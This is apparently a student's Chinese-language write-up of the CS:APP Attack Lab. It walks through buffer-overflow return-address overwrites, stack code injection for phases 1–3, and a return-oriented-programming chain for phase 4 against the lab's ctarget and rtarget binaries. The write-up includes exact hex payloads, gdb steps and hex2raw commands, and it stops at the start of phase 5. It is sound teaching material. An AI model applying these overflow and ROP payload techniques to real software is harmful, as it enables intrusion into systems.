



# attack-lab

## 简介

这个实验是使用缓冲区溢出或者一些栈上的操作使得程序不按照预期执行从而跳转到一些不可预知的地方。

> 从小就觉得attack是一个很神奇的事情，现在自己操作起来还是觉得很好玩！在完成bomblab之后再完成这个attacklab发现真的很好玩

## WARNING

#### execute

Please look!!!
	There is to old for `ctarget`, so we need to fix some problem, otherwise we will get fault without 	typing in some string!
	So we search the blog and then found the solutions that we can add a printf.so to fix it!
this is the address I found [solution for printf.so](https://blog.rijuyuezhu.top/posts/db646f34/) and the printf.so is just at this address!

#### gdb

`ctarget`的运行需要使用特殊的`printf.so`，所以在使用`gdb`的时候也是需要设置的

```bash
gdb ctarget
(gdb) set environment LD_PRELOAD=./printf.so
(gdb) break getbuf # set the breakPoint
# s for stepi is to run next step
(gdb) info register # when you come after getting the 40bytes stack memory
```

# 直接注入攻击

## phase_1

#### 题目介绍

本题`没有启动栈保护`，可以直接写入栈来修改程序的执行指令。查看题目可以知道需要通过`gets()`的特殊性质来读取一个长的字符串以达到修改栈上返回地址的目的

```c
// test code of c
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }

// touch1 code of c
1 void touch1()
2 {
3 vlevel = 1; /* Part of validation protocol */
4 printf("Touch1!: You called touch1()\n");
5 validate(1);
6 exit(0);
7 }
```

然后题目需要我们在`test()`调用`getbuf()`的时候不要返回`test`，而是直接跳转到`touch1`。根据题目可以知道直接修改`test`在调用`getbuf`时在栈中`push`的`ret`地址就好了

> `gets()`不管三七二十一，反正没有读到`\n`就不会停止，一直读取输入，这就会导致栈上分配的数据区装不下那么多字符导致父程序的栈帧被修改从而引发危险，甚至可以直接注入一些意想不到的汇编那更是逆天

#### 题目解析

获取`ctarget`的汇编

```bash
objdump -d ctarget > ctarget.asm # this command is to disassembly the code
```

查看`test`汇编代码可以发现栈指针在保存返回地址之后就直接进入`getbuf`

```assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp 
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> # 从这里进入getbuf
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	ret    
  401991:	90                   	nop
  401992:	90                   	nop
  401993:	90                   	nop
  401994:	90                   	nop
  401995:	90                   	nop
  401996:	90                   	nop
  401997:	90                   	nop
  401998:	90                   	nop
  401999:	90                   	nop
  40199a:	90                   	nop
  40199b:	90                   	nop
  40199c:	90                   	nop
  40199d:	90                   	nop
  40199e:	90                   	nop
  40199f:	90                   	nop
```

查看`getbuf`汇编发现分配了`40bytes`的数组空间，那么结合上面的`test`即可知道，从当前`rsp`往上的`40bytes`是分配的数组长度，返回地址在`41bytes--48bytes`之间，所以我们在这段保存返回地址的地方修改为`touch1`的地址即可

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp #分配了40bytes的空间
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets> 
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

查看`touch1`的汇编获取地址

```assembly
00000000004017c0 <touch1>: # 这里就是需要修改为的目标地址
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```

由于`x86-64`是小端序，因此需要注意地址的书写，地址应该为`c0 17 40 00 00 00 00 00`

创建一个`txt`文件，前面40个字符可以随便写喜欢什么写什么，后面一行变成对应地址即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

现在使用官方提供的工具并结合`ubuntu22.04`本题的补丁来完成这题

```bash
./hex2raw  < phase_1.txt | LD_PRELOAD=./printf.so ./ctarget -q 
```

> 根据最近看的`linking`来说，这里的`LD_PRELOAD=./printf.so`是希望该程序使用我们自定义的共享文件来链接，问就是直接运行不了

## phase_2

#### 题目介绍

这题和`phase_1`差不多，但是需要在执行`touch2`前修改`rdi`的值为`cookie`的值。本题的思路是先将需要执行的代码注入栈中，然后将返回地址修改为需要执行的代码的栈地址上，以此来完成寄存器的修改以及`touch2`的调用



#### 题目解析

通过题目的介绍就可以知道就是注入代码并执行代码

需要一些准备工作，将需要注入的汇编代码保存到`phase_2.s`中

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

然后将汇编代码编译再反编译获取机器码

```bash
gcc -c phase_2.s # 汇编
objdump -d phase_2.o > phase_2.asm # 获取反汇编
```

此时可以获得我们想要注入的代码的x86机器码

```assembly

phase_2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    

```

提取里面的机器码如下并在`phase_2.txt`中写入

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00 # 很坑的一个地方，需要停下来看一下      	
00 00 00 00 00 00 00 00            	
00 00 00 00 00 00 00 00            	
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 在这里先不要看这一行
```

> 坑点：内存中指令的放置是连续的，比如一个1字节长度的指令和8字节的指令是靠在一起的，而不是说每个指令都占8字节，因此我们提取完指令之后需要将指令放在一起，这就解释了为什么上面的这个c3为什么没有另开一行的原因

需要注入的代码已经有了，如何让机器执行这段代码呢？那就是需要找到这段代码注入的栈地址，然后让`%rip`指向这个栈地址即可！

> 这里指向的栈地址与自己编写的注入代码的位置息息相关，为了避免计算错误直接零帧起手

很容易知道我们注入的代码在`getbuf()`里面分配的`40bytes`的起始地址，因此使用`gdb`查看在分配完这些字节地址后`%rsp`指向的地址就是这个起始地址

使用`gdb`[[查看这个地址](####gdb)]发现地址是 `78 dc 61 55 00 00 00 00`，因此需要将返回`test`地址的地方修改为返回`78 dc 61 55 00 00 00 00`即可

```bash
./hex2raw  < phase_2.txt | LD_PRELOAD=./printf.so ./ctarget -q 
```

## phase_3

#### 题目介绍

这和`phase_2`是一样的，只不过在`touch2`里面检测的是数值，这个是通过字符串检测，同时有一个很关键的点，在`touch3`里面分配了一个`110bytes`的char数组，并且这个数组填入数据的区域是随机化的，也就是我们不能在`touch3`的栈帧中插入数据，否则会因为随机化导致数据丢失使得不是100%成功。

大概注入的过程就是下面的流程图

#### 题目解析

由于和`phase_2`十分的相似，这里只需要多一个步骤就是找出注入字符串的起始地址，这个地址是在test完成`8bytes`的栈空间分配之后的地址，查看汇编代码中发现这`8bytes`的地址并未被使用，不知道是否用来缓冲的，不管了不影响做题。

> `call`指令相当于使用`push`指令将当前指令的下一个指令地址存到栈上并跳转目标函数地址，是两个步骤，并且会在栈空间上多使用一个`8bytes`的空间
>
> `ret`指令会跳转回存储的指令地址并将指令地址`pop`出来，此时栈空间就会失去存储这个指令地址的`8bytes`空间

所以解释了为什么我们的字符串注入需要注入在`test`的栈帧中而不是注入在`getbuf`中，因为`getbuf`栈帧中注入的时候，调用`touch3`函数的时候这一部分区域都是随机化存储字符串的空间，会导致存储在栈上的字符串被修改导致数据丢失

同理还是使用gdb调试发现注入字符串的起始地址是`0x5561dcb0`，然后需要注入的字符串就是`cookie`对应的字符串，稍加修改一下`phase_2`的注入机器码即可

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

使用官方的工具提交

```bash
./hex2raw  < phase_3.txt | LD_PRELOAD=./printf.so ./ctarget -q
```

# 面向返回编程

在实验的第二阶段启用了防御策略使得直接代码注入变得不切实实际，主要有两个原因

- 栈随机化
- 栈上代码不可执行

因此为了解决这种栈上代码不可执行的策略，我能否直接使用已有的代码片段呢，事实证明就是需要使用已有的代码片段，通过注入来修改第一次的返回地址然后使得程序进入我们设置的调用代码片段链

> 通过每次的代码结尾都是ret来使得程序一直跳转到需要执行的代码片段，然后跳转的地址通过注入来写入就可以使得程序按照注入的地址来不断的执行代码片段来达到一些逻辑功能

## phase_4

本题和`phase_2`是一样的，都是需要成功调用`touch2`，但是不一样的地方就是从代码注入变成利用已有的代码片段，我们先查看原有的`phase_2`的执行策略

```assembly
movq    $0x59b997fa, %rdi # 将cookie的值赋值给rdi
pushq   $0x4017ec #将touch2的地址放在栈中
ret  #跳转touch2
```

拆解这些代码可以知道我们先将cookie放在栈上，然后使用`pop`指令将cookie的值放在某个寄存器中，再将这个寄存器赋值给`rdi`，最后返回`touch2`的指令地址，具体的执行过程如图所示



根据这个图找出我们需要找到的元素

```assembly
# popq %rax ==> 58 因此找到如下的工具1，其中90是nop指令，不影响
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret   
```

```assembly
# movq %rax, %rdi ==> 89 c7 因此找到工具2
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

- 工具1地址--->`0x4019ab`
- 工具2地址--->`0x4019c5`
- cookie的值--->`0x59b997fa`
- touch2地址--->`0x4017ec`

> 工具1和工具2的地址需要将指令通过查表找到机器码，通过查找功能找到机器码在`rtarget`中存在的片段位置，然后找到具体的起始地址即可，注意需要以ret结尾
>
> `nop`指令不影响任何东西

通过逻辑的整合和地址的准备，因此我们可以获取这个需要输入的机器码

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

```bash
./hex2raw  < phase_4.txt | LD_PRELOAD=./printf.so ./rtarget -q
```

## phase_5

来到了最后一个了，还没开始做就听说这个环节很难
